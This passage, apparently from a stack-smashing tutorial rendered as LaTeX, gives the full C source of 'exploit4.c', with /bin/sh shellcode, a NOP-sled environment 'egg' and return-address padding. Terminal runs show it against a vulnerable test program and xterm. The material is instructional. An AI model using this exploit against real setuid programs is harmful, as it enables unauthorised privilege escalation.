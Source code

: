\documentclass[10pt]{article}
\begin{document}
{new exploit now looks like this:

\begin{lstlisting}[caption=exploit4.c]

#include <stdlib.h>
#define DEFAULT_OFFSET                    0
#define DEFAULT_BUFFER_SIZE             512
#define DEFAULT_EGG_SIZE               2048
#define NOP                            0x90

char shellcode[] =
  "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46"
  "\x07\x89\x46\x0c\xb0\x0b"
  "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80"
  "\x31\xdb\x89\xd8\x40\xcd"
  "\x80\xe8\xdc\xff\xff\xff/bin/sh";

unsigned long get_esp(void) 
{
   __asm__("movl %esp,%eax");
}

void main(int argc, char *argv[]) 
{
  char *buff, *ptr, *egg;
  long *addr_ptr, addr;
  int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
  int i, eggsize=DEFAULT_EGG_SIZE;

  if (argc > 1) bsize   = atoi(argv[1]);
  if (argc > 2) offset  = atoi(argv[2]);
  if (argc > 3) eggsize = atoi(argv[3]);
  if (!(buff = malloc(bsize))) 
  {
    printf("Can't allocate memory.\n");
    exit(0);
  }

  if (!(egg = malloc(eggsize))) 
  {
    printf("Can't allocate memory.\n");
    exit(0);
  }

  addr = get_esp() - offset;
  printf("Using address: 0x%x\n", addr);
  ptr = buff;
  addr_ptr = (long *) ptr;
  for (i = 0; i < bsize; i+=4)
    *(addr_ptr++) = addr;

  ptr = egg;
  for (i = 0; i < eggsize - strlen(shellcode) - 1; i++)
    *(ptr++) = NOP;

  for (i = 0; i < strlen(shellcode); i++)
    *(ptr++) = shellcode[i];

  buff[bsize - 1] = '\0';
  egg[eggsize - 1] = '\0';  memcpy(egg,"EGG=",4);
  putenv(egg);
  memcpy(buff,"RET=",4);
  putenv(buff);
  system("/bin/bash");
}
\end{lstlisting}

Lets try our new exploit with our vulnerable test program: 

\begin{verbatim}
[aleph1]$ ./exploit4 768
Using address: 0xbffffdb0 
[aleph1]$ ./vulnerable $RET
$
\end{verbatim}

Works like a charm. Now lets try it on xterm: 

\begin{CJK}{UTF8}{bsmi} %
\begin{verbatim}
[aleph1]$ export DISPLAY=:0.0
[aleph1]$ ./exploit4 2148
Using address: 0xbffffdb0
[aleph1]$ /usr/X11R6/bin/xterm -fg $RET
Warning: Color name
...°¤ÿ¿°¤ÿ¿°¤ ...


\end{verbatim}
\end{CJK}}
\end{document}
